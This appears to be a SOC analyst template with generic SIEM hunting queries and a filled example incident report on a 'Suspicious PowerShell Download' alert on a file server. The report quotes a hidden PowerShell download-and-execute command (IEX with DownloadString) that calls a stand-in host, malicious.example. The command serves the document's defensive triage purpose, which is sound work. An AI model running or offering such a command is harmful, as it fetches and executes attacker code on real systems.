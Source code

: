 ## Example hunting queries (generic)
- Find process executions from host in last hour:


index=endpoint host="HOSTNAME" earliest=-1h | stats count by process, user, command_line

```
- Look for outbound connections to suspicious IP:
```

index=network dest_ip="1.2.3.4" | stats count by src_ip, src_port, dest_port

```
- Search for known hash:
```

index=file hash.sha256="SOMEHASH" | table _time host file_path user


Adapt queries to Splunk, Elastic, or your SIEM language.

---

## Example report (filled)
Report ID: soc-20251013-0001  
Analyst: daniel_kaas  
Date created: 2025-10-13T14:20:00+02:00  
Alert source: "Suspicious PowerShell Download", rule id PS-1024  
Priority: High  
Verdict: True Positive

Who  
- User: svc-backup (service account)  
- Host: filesrv01.example.local (192.168.10.21)

What  
- Event sequence: 2025-10-13T13:58:12+02:00 Host executed `powershell.exe -nop -w hidden -c "IEX (New-Object Net.WebClient).DownloadString('http://malicious.example/p');"`  
- File created: `C:\Windows\Temp\payload.exe`, SHA256 `aaaaaaaa...`

When  
- Start: 2025-10-13T13:58:12+02:00  
- Last seen: 2025-10-13T14:05:32+02:00

Where  
- Host: filesrv01.example.local, VLAN: servers, public IP seen contacting `malicious.example` 45.77.123.10 at port 80

Why  
- Reasoning: Command line is an exact match of known "download and execute" pattern. EDR process tree shows `powershell.exe` spawned from `schtasks.exe` running under service account. File hash is not present in internal whitelist and matched VT indicator with low confidence malicious. Multiple outbound connections to `45.77.123.10` within one minute of execution. No scheduled maintenance or approved script found. Marked as True Positive.

Evidence summary  
- SIEM event ids: 987654321, 987654322  
- EDR process tree JSON: `edr/export/filesrv01_proc_20251013.json`  
- File hash: SHA256 `aaaaaaaa...` (sampled and uploaded to sandbox)  
- PCAP: `pcap/filesrv01_20251013.pcap` showing HTTP GET to `malicious.example/p`
